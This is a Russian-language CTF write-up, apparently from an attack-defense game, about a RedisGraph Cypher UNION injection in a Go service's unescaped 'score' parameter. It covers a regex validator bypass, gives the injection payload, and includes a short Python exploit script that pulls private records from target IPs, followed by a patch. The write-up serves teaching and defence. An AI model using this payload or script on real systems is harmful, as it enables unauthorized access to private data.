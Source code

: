 # Инъекция в planetzor
## Поиск уязвимости
Сервис написан на Go. Основной файл - main.go
Для работы с базой данных используется файл db/db.go

Одна из самых частых ошибок - инъекции в запросы к базе данных. Посмотрим какие базы данных используются здесь:

![](https://raw.githubusercontent.com/ArturLukianov/StayHomeWriteup/master/images/Screenshot%20from%202020-05-05%2018-50-33.png)

Используется redis и redisgraph. Поищем, не используется ли где сырой запрос в базу данных:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-09-31.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-07-36.png)

Поищем, где используется функция graphQuery():
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-08-03.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-08-14.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-08-27.png)
graphQuery() экранирует двойные кавычки, поэтому отбросим то, где ввод находится между кавычек. Ещё отбросим то, где ввод вообще не используется. Тогда останется только одна функция с сырым запросом, который мы можем эксплуатировать:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-09-31.png)

Посмотрим как мы можем проэксплуатировать запрос:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-32-59.png)

Параметр "planet" экранируется - это нам не подходит

Зато параметр score не экранируется. Попробуем payload.

## Разработка payload

Находим [документацию](https://oss.redislabs.com/redisgraph/commands/). Сделаем UNION инъекцию.

```
MATCH (r:Review {private: FALSE, planet: "planet"}) WHERE r.score = 1 RETURN r UNION MATCH (r:Review)
```
Ограничим вывод публичных записей, они нам не нужны:
```
MATCH (r:Review {private: FALSE, planet: "%s"}) WHERE r.score = 1 RETURN r LIMIT 1 UNION MATCH (r:Review {private: TRUE})
```

Итоговый payload:
```
1 RETURN r LIMIT 1 UNION MATCH (r:Review)
```

## Поиск точки эксплуатации

Мы нашли, что эксплуатировать и как. Осталось найти url и в каком виде передавать параметры:
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-12-37.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-30-40.png)

Параметры передаются в GET запросе и не требуют аутентификации

Тут можно заметить, что параметр score проверятся score с помощью ValidateScore, который мешает эксплуатации

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2019-42-20.png)

## Обход ValidateScore

Регулярное выражение неправильно - оно проверяет на наличие хотя бы одного символа подходящего под [1-5], и такой присутствует в нашем payload. Обойдено.

## Эксплуатация

Протестируем наш payload.
Вначале создадим приватную запись с "флагом":
Проверим, что флаг не отображается публично:
Попробуем использовать наш payload:
Отлично, всё работает!

Сделаем sploit для destructive farm:
```
import requests
import sys

payload = "1 RETURN r LIMIT 1 UNION MATCH (r:Review)"

ip = sys.argv[1]
url = "http://" + ip + ":4000/reviews"
print(requests.get(url, params={'score': payload}).text)
```

##  Патчинг

Для патчинга достаточно починить регулярное выражение:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2019-42-20.png)

